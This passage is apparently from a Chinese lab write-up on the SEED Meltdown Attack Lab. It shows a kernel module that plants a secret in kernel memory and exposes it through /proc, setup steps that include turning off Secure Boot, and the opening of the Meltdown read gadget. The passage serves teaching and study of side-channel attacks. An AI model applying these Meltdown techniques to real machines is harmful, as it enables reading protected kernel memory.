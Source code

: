 ```c
{
   .owner = THIS_MODULE,
   .open = test_proc_open,
   .read = read_proc,
   .llseek = seq_lseek,
   .release = single_release,
};

static __init int test_proc_init(void)
{
   // write message in kernel message buffer
   printk("secret data address:%p\n", &secret);      

   secret_buffer = (char*)vmalloc(8);

   // create data entry in /proc
   secret_entry = proc_create_data("secret_data", 
                  0444, NULL, &test_proc_fops, NULL);
   if (secret_entry) return 0;

   return -ENOMEM;
}

static __exit void test_proc_cleanup(void)
{
   remove_proc_entry("secret_data", NULL);
}

module_init(test_proc_init);
module_exit(test_proc_cleanup);
```

这段程序需要在编译后作为内核模块被安装，主要做了两件事：一个是将定义好的静态字符串 `secret`（即被攻击数据）的首地址写入内核缓冲区；而另一件则是创建了一个名叫`secret_data`的文件，当这个文件被读时，`secret`就会因被访问而调入缓存。而这个文件就是一个`/proc`目录下的文件，用户态程序可以对其进行读操作。用这种方法，就可以在攻击时先行将数据调入缓存，提高攻击的成功率，其原因会在下一节解释。

内核使用同样来自SEED实验“Meltdown Attack Lab”中提供的 makefile 文件编译后使用`insmod`指令安装。（这里注意，在安装时可能会遇到错误信息“insmod error required key not available”，这是由于系统开启了 UEFI secure boot，不允许安装没有 UEFI secure key 的模块。在BIOS设置中将 UEFI secure boot 关闭即可。）然后运行指令

```bash
dmesg | grep 'secret data address'
```

就会显示secret字符串的物理地址，这一地址会被用到攻击代码中。

## 3. 编写攻击程序

首先解释一下攻击的基本原理：

```c
   kernel_data = *kernel_data_addr;  
   array[kernel_data * 4096] = 1;   
```
